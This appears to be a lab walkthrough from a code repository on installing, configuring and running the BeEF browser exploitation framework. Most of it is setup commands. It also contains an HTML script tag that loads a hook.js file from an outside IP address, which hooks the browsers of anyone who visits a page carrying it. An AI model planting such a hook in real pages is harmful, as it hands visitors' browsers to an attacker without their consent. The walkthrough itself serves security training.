





# BeEF Lab Walkthrough

## What is BeEF?

BeEF (Browser Exploitation Framework) is a tool that lets you test how browsers can be exploited. Instead of just checking network security, it focuses on the browser itself as an entry point. Basically, it hooks browsers and lets you run commands or gather info directly from them.

I used BeEF to see what kind of data I could collect from a hooked browser and how it connects back to the server.  

For more info: [Introducing BeEF](https://github.com/beefproject/beef/wiki/Introducing-BeEF)

---

## Setting Up BeEF

I worked on Linux for this lab since it’s officially supported. Here’s what I did step by step.

### 1. Installing Prerequisites

BeEF needs **Ruby 3.0+** and **Bundler**. I installed them like this:

```bash
# Install Bundler
gem install bundler
```

### 2. Getting the BeEF Code

You can grab BeEF either by downloading a zip:

```bash
wget https://github.com/beefproject/beef/archive/master.zip
```

Or cloning the repo:

```bash
git clone https://github.com/beefproject/beef
```

### 3. Installing BeEF

After getting the code, I ran the install script:

```bash
./install
```

This installed all the necessary dependencies, including NodeJS and Ruby gems.

---

## Starting BeEF

Before starting, I updated the default username and password in `config.yaml`. Then I ran:

```bash
./beef
```

The console started and I could see the dashboard running.

---

## Testing (Optional)

To test the setup, I installed a few extra packages:

```bash
sudo apt-get install espeak lame
bundle install --with test
```

And ran the test suite:

```bash
bundle exec rake
```

---

## Updating BeEF

Since browsers update fast, it’s a good idea to keep BeEF up to date. I did it like this:

```bash
./update-beef
```

Or manually:

```bash
git pull
bundle install
```

---

## Hooking a Browser

BeEF creates a script called `hook.js` that you include on a webpage. Once someone opens that page, their browser shows up as “hooked” in the BeEF dashboard.

Here’s what I did:

```html
<script src="http://123.123.123.123:3000/hook.js"></script>
```

After loading the page, I could see the hooked browser in the dashboard.

---

## Web Server Settings

I also checked `config.yaml` to see how the web server was set up. Here’s the main section I used:

```yaml
http:
    debug: false
    host: "0.0.0.0"
    port: "3000"

    public:
        host: "example.com"
        port: "3000"
        https: false

    dns: "localhost"
    hook_file: "/hook.js"
    hook_session_name: "BEEFHOOK"
    session_cookie_name: "BEEFSESSION"
```

I didn’t change much, just made sure the host and port were correct so the hook worked.

---

## Screenshots

Here are the main things I saw during the lab:

```markdown






```
